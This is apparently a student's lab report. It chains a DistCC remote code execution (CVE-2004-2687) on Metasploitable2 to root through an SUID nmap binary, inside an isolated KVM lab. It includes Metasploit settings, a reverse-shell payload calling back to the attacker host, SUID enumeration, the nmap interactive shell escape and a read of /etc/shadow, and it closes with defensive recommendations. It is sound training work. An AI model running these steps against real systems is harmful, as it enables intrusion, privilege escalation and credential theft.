# Chaining Two Medium Bugs to Root

> **Scope note.** Week 4, part 2. Fully isolated KVM lab (virbr0,
> 192.168.122.0/24) with no contact with the host's real/external network and no
> access to any third-party system — the work stays within ethical and legal
> bounds. The point isn't the single exploit; it's that chaining a remote-code bug
> with a local misconfiguration turns "some open ports" into full root.

---

## 1. Purpose and Scope

The goal is to exploit one of the vulnerabilities found by an OpenVAS/Greenbone scan of
Metasploitable2, documenting an end-to-end attack scenario in a controlled, isolated lab.
It meets the week-4 requirement to "exploit one of the vulnerabilities found," combining
an offensive (attacker) perspective with the defensive awareness needed to interpret the
findings correctly.

The report has two phases: (1) selecting a vulnerability from the OpenVAS scan by CVSS/QoD
criteria and exploiting it with the Metasploit Framework, and (2) expanding that access via
post-exploitation and escalating to root through a secondary weakness — a misconfigured
SUID binary.

---

## 2. Vulnerability Scan Results (OpenVAS/Greenbone)

An unauthenticated scan was run against the Metasploitable2 target with the "Full and fast"
profile and the "All IANA Assigned TCP" port list. Unauthenticated was chosen because the
scenario reflects "how an outside attacker sees this system"; a credential-based
(authenticated) scan gives far more detail by logging in via SSH/SMB but doesn't reflect a
realistic external-threat scenario.

The scan took ~32 minutes and found 1 host, 23 open ports, 20 distinct
applications/services, and 120 unique CVEs. Such a high count is because Metasploitable2 is
an intentionally insecure training image (unpatched 2008-era services).


*Scan summary — an unauthenticated Full and fast scan of a single host.*

The critical (CVSS 9.0–10.0) and high (CVSS 7.0–8.9) findings, sorted by severity in the
Results tab, are documented in the two screenshots below:



*The critical/high findings, sorted by CVSS base score.*

---

## 3. Vulnerability Comparison and Selection Rationale

Before choosing a target, the critical/high findings were compared on QoD (detection
reliability), exploit type, and learning value:

| Finding | Port | CVSS | QoD | Category | Assessment |
| :--- | :--- | :--- | :--- | :--- | :--- |
| Possible Backdoor: Ingreslock | 1524 | 10.0 | 99% | Already-open bindshell | One command (nc); low instructional value |
| vsftpd Compromised Source Backdoor | 21/6200 | 9.8 | 99% | Backdoor, single step | Very well-known classic; single-step MSF module |
| **DistCC RCE (CVE-2004-2687)** | 3632 | 9.3 | 99% | Real RCE, command injection | **SELECTED** — full exploit/payload/session workflow |
| Apache Tomcat AJP / Ghostcat | 8009 | 9.8 | 99% | File read + RCE chain | Multi-step (file upload+read), left out of scope |
| VNC Brute Force Login | 5900 | 9.0 | 70% | Weak authentication | Not an exploit, a credential attack — different category |
| PostgreSQL Default Credentials | 5432 | 9.0 | 99% | Weak authentication | Not an exploit, a credential attack — different category |
| UnrealIRCd Backdoor | 6697 | 7.5 | 70% | Backdoor | Lower QoD, less reliable detection |

**DistCC Daemon Command Execution (CVE-2004-2687, port 3632/tcp)** was selected because:

- **QoD 99%** — high detection reliability, low false-positive risk.
- It's a genuine remote-code-execution scenario; unlike credential-based findings (VNC/PostgreSQL), it's a true "exploit."
- A ready, verified module exists in Metasploit (Rank: excellent): `exploit/unix/misc/distcc_exec`.
- Unlike a single-step backdoor (vsftpd/Ingreslock), it lets you experience Metasploit's full exploit → payload → session workflow; higher learning value.
- Compared to multi-step chains (Ghostcat), it fits this week's scope (one exploit) at an appropriate complexity level.

**Root cause (CWE-306: Missing Authentication for Critical Function).** `distccd` accepts
incoming compile requests without verifying who sent them, passing them to the command line
and executing. distcc is designed to run on a trusted internal build farm, but with no
authentication/authorisation layer, an attacker can send a system command hidden inside a
"compile request" and have distccd run it unquestioned. On Metasploitable2 the service runs
exposed with no access restriction (firewall/ACL).

---

## 4. Cyber Kill Chain Mapping

| Kill chain stage | In this scenario |
| :--- | :--- |
| Reconnaissance | OpenVAS scan discovering open ports/services and vulnerabilities |
| Weaponization | Selecting the `distcc_exec` module and configuring it with a reverse_perl payload |
| Delivery | Sending the crafted exploit to the distccd service on 3632/tcp |
| Exploitation | distccd running the command without authentication (triggering CVE-2004-2687) |
| Installation | No separate persistence mechanism established here (session only) |
| Command & Control | A shell session opened over the reverse TCP handler (192.168.122.1:4444) |
| Actions on Objectives | Post-exploitation recon and SUID-based escalation to root |

---

## 5. Exploitation (Metasploit Framework)

### 5.1 Environment and Target Parameters

Four parameters had to be identified from the right source for the module to work:

| Parameter | Value | Source |
| :--- | :--- | :--- |
| RHOSTS | 192.168.122.109 | OpenVAS Results tab, Host/IP column |
| RPORT | 3632 | OpenVAS Results tab, Location column |
| LHOST | 192.168.122.1 | `ip addr show virbr0` — the host's interface IP on the KVM virtual network |
| LPORT | 4444 | Metasploit's default for the reverse_perl payload |

Why LHOST is the virbr0 interface IP and not the host's real/external IP matters:
Metasploitable2 can only see KVM's isolated virtual network (192.168.122.0/24); it has no
access to the host's external (e.g. wifi) IP. The reverse shell's "return address" must be
one the target can actually reach — the host's identity on that same virtual network, the
virbr0 IP (192.168.122.1).


*The DistCC module — Rank excellent, with a check function.*


*Initial options: RHOSTS empty, default reverse_bash payload.*

RHOSTS and LHOST were set with `set RHOSTS 192.168.122.109` and `set LHOST 192.168.122.1`.
RPORT already defaulted correctly (3632), so it was left unchanged.


*Options after configuring RHOSTS and LHOST.*

### 5.2 Verification (Check) and First Attempt

Before triggering the exploit, the module's `check` feature was used to independently verify
the target really is vulnerable — without sending any payload. This confirms the OpenVAS
finding with a second, independent tool and removes false-positive risk.


*Independent confirmation: the target is vulnerable.*

The first `exploit` attempt used Metasploit's default payload for this module,
`cmd/unix/reverse_bash`. This payload tries to open a TCP connection via the target's bash
`/dev/tcp/IP/PORT` special-file mechanism. The exploit reached and triggered the target (so
the DistCC vulnerability was confirmed once more in practice), but the target's shell
(likely a minimal/dash-based `/bin/sh`) doesn't support this bash-specific syntax, giving a
`bash: /dev/tcp/192.168.122.1/4444: No such file or directory` error, and no session opened.


*The exploit fires, but the reverse_bash payload is incompatible with the target shell.*

### 5.3 Payload Change and Successful Exploit

This kind of mismatch is common in real pentests: the exploit itself works, but the chosen
payload can be technically incompatible with the target environment. As a fix, `show payloads`
listed alternative payloads compatible with this exploit module.


*Compatible payloads — reverse_perl among them.*

`cmd/unix/reverse_perl` was chosen because the Perl interpreter is installed by default on
Metasploitable2 (many 2008-era system scripts were written in Perl) and it doesn't depend on
bash's `/dev/tcp` feature — Perl opens the TCP connection directly via its own socket library.
After `set payload cmd/unix/reverse_perl` and re-running `exploit`, the reverse TCP handler
started and a session opened successfully.




*Session 1 opened — 192.168.122.1:4444 ← 192.168.122.109.*

Access was verified with these commands:

| Command | Output |
| :--- | :--- |
| `whoami` | `daemon` |
| `id` | `uid=1(daemon) gid=1(daemon) groups=1(daemon)` |
| `uname -a` | `Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux` |
| `hostname` | `metasploitable` |
| `pwd` | `/tmp` |

Running as `uid=1 (daemon)` shows DistCC runs as a restricted system account, not root —
partially good practice by the service's own design (had it run as root/SUID, we'd have
root directly), but unauthenticated remote code execution having occurred at all is a
critical vulnerability in itself.


*Proof of remote code execution as the daemon (uid=1) account.*

---

## 6. Post-Exploitation Recon

To understand the access limits and the system's structure, the shell was first upgraded to
a fully functional bash session with `python -c 'import pty; pty.spawn("/bin/bash")'`. Why
this is needed: Metasploit's initial post-exploit shell is a "dumb shell" — a simple
command/output pipe with no tab completion, proper `cd` behaviour, or support for interactive
programs (`su`, `passwd`). The pty module simulates a real pseudo-terminal (PTY) via Python
and starts bash inside it, yielding a fully functional shell as if connected over SSH.

Key recon steps and findings from the upgraded shell:

- Reading `/etc/passwd` to list all user accounts. Besides root (UID 0), three real (bash
  shell, interactive-login) users were found: `msfadmin` (uid 1000), `user` (uid 1001),
  `service` (uid 1002).
- The `distccd` service itself runs under a system account with uid 111 and a `/bin/false`
  shell — a shared/generic system account rather than a service-specific isolated one,
  showing defense-in-depth is under-applied here too.
- `/home` held 4 directories (ftp, msfadmin, service, user), revealing more accounts than
  initially known (just msfadmin).


*User enumeration via /etc/passwd — including the distccd service account.*

`id` confirmed we were still only in the daemon group with restricted privileges. `sudo -l`
prompted for the daemon user's password; rather than guessing an unknown password (a
brute-force attempt was deliberately not made), this path was abandoned for an alternative
escalation route.

---

## 7. Privilege Escalation

To systematically research escalation from daemon to root, two classic vectors were checked:
programs with the SUID bit, and scheduled tasks (cron) running as root.

- The **SUID (Set User ID)** bit makes a flagged program run with the *owner's* privileges no
  matter who runs it. A root-owned, SUID-bit program can perform actions as root even when run
  by a normal user.
- `find / -perm -4000 -type f` listed all SUID binaries, and `cat /etc/crontab` showed tasks
  running automatically as root.


*The SUID scan and crontab — note /usr/bin/nmap in the SUID list.*

The crontab showed `/etc/cron.hourly` runs every hour as root, but with no write access to
that directory this vector wasn't pursued. The SUID list held a striking finding:
`/usr/bin/nmap`.

`/usr/bin/nmap` being SUID is not a normal configuration — nmap doesn't require SUID by
design. The installed nmap version (4.53, dated 2007) has an "interactive mode" (removed in
later versions for security) where an arbitrary shell command can be run with the `!` prefix.
Because nmap runs SUID-owned by root, the sub-process (shell) opened this way inherits root
privileges. This is a classic escalation technique in the CWE-269 (Improper Privilege
Management) category, documented in GTFOBins.


*nmap --interactive → !sh → a root shell (prompt is # not $).*

Root access was verified with `whoami` and `id`. The notable point in `id` is that although
uid still shows 1 (daemon), the euid (effective uid) is 0 (root) — the technical proof of
exactly how SUID works: the real user identity is unchanged, but the process's effective
privilege is elevated to root.


*Root confirmed — uid=1(daemon) but euid=0(root), the SUID signature.*

As concrete final proof of root, the `/etc/shadow` file (normally `-rw-------`, readable only
by root) was successfully read. It holds the password hashes in MD5 (`$1$` prefix) or SHA-based
formats. No changes were made and no hashes were cracked; read-only access alone serves as
proof of bypassing the filesystem-level restriction.


*Reading /etc/shadow — the definitive proof of root.*

---

## 8. Conclusion and Assessment

A two-stage exploit chain was successfully performed and documented:

- **Stage 1 — Remote Code Execution:** exploiting the missing authentication in the DistCC
  service (CVE-2004-2687, CWE-306) to gain remote command execution as the daemon user.
- **Stage 2 — Privilege Escalation:** exploiting a misconfigured SUID binary
  (`/usr/bin/nmap`, old version, CWE-269) to escalate from daemon to root.

This concretely shows that even a vulnerability that looks medium-critical on its own can lead
to full system compromise when *chained* with another misconfiguration. This is a common
pattern in real-world attacks: attackers rarely rely on a single critical vulnerability, and
instead combine multiple medium-level weaknesses to reach their goal.

**Defensive recommendations:**

- The DistCC service should be reachable only from a trusted internal network (restricted by
  firewall/ACL), never exposed directly to the internet or a broad internal network.
- The SUID bit should not exist on any binary that doesn't truly need it; regular SUID scans
  (`find / -perm -4000`) should be part of system hardening.
- All services and tools (including nmap) should be kept at current versions; very old
  versions (2007-2008) in production are a risk indicator in themselves.
- Service accounts (like distccd) should be isolated, least-privileged, non-shared accounts.
